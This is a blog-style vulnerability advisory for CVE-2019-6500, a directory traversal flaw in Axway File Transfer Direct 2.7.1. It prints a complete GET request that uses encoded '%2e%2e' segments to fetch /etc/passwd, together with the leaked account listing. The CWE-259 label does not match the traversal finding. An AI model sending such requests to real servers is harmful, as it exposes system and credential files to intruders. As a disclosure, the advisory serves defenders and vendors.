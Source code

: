 ```yaml
---
layout: post
title:  "Directory Traversal in Axway File Transfer Direct"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: CVE-2019-6500
* CWE ID: CWE-259

Vendor: Axway

Product: Axway File Transfer Direct

Version affected:  2.7.1

Axway is a software and services company registered in France with headquarters in Phoenix, Arizona. Established in 2001, Axway serves more than 11,000 organisations in 100 countries, with offices around the globe. Their award-winning products, solutions and services enable the business-critical transactions required to accelerate performance within and among enterprises - while providing management, security and governance on interactions throughout business networks.

#### Product description:

File Transfer Direct is an ad hoc file exchange solution that brings enterprise-class managed file transfer (MFT) capabilities to familiar email interfaces and web-based clients. File Transfer Direct transparently applies administrator-defined policies while adding the security and audit capabilities required for corporate governance and regulatory compliance.

#### Finding:

The unauthenticated Directory Traversal vulnerability can be exploited by issuing a specially crafted HTTP GET request utilizing a simple bypass, %2e%2e instead of (/),URL encoding.

Example:
{% highlight ruby %}

REQUEST:
GET /h2hdocumentation//%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: a.b.c.d
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
{% endhighlight %}

{% highlight ruby %}

RESPONSE:
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1713
Date: Tue, 23 Jan 2018 03:42:11 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
clam:x:100:102:Clam Anti Virus Checker:/var/clamav:/sbin/nologin
nocpulse:x:101:103:NOCpulse user:/var/lib/nocpulse:/bin/bash
hpsmh:x:500:500::/opt/hp/hpsmh:/sbin/nologin
ftd:x:20230:20000:ftd:/home/ftd:/bin/bash
nrpe:*:20231:20231:nrpe:/home/nrpe:/sbin/nologin
tss:x:102:105:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
stunnel:x:20009:20011:user stunnel:/dev/null:/bin/false
_lldpd:x:103:501::/home/_lldpd:/bin/bash
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Path_Traversal
2. https://www.axway.com/
3. Axway File Transfer Direct - http://infosightsol.com/wordpress/wp-content/uploads/2012/11/Axway_Datasheet_File_Transfer_Direct_EN.pdf
